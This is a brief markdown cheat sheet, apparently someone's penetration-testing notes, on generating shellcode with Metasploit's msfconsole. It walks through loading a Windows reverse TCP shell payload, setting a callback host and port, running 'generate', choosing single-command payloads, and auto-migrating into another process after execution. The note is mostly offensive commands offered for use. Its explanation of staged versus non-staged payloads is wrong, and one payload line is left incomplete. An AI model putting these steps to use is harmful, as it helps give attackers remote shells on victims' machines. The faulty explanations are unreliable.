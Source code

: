 # msfconsole

## Msfconsole Have a the Keyword "generate" that Generates Shell Code. So, First Select a Payload

```bash
use payload/windows/shell_reverse_tcp
```

### Now, Set Variables as Usual

```bash
set LPORT 5555
set LHOST 192.168.0.101
```

### Now Generate Shell Code Using the Command "generate"

```bash
generate
#to see the options use generate -h
```

## If Meterpreter Goes In and Out, Change Payload

```bash
set payload linux/x86/
```

* switch to staged or non staged

## Staged Payloads

* they will have /meterpreter/ in front of payload

## Non-Staged Payloads

* they will not have /meterpreter/

## Single Commands in Windows

### If there is Limited Space and Only a Single Command is Needed Use

```bash
use payload/windows/exec
```

```bash
use payload/cmd/windows/generic
```

## Merge Msfconsole Payload to Another Process Immediately After Execution

```bash
set AutoRunScript post/windows/manage/migrate
```

## Resources

* [https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet](https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet)
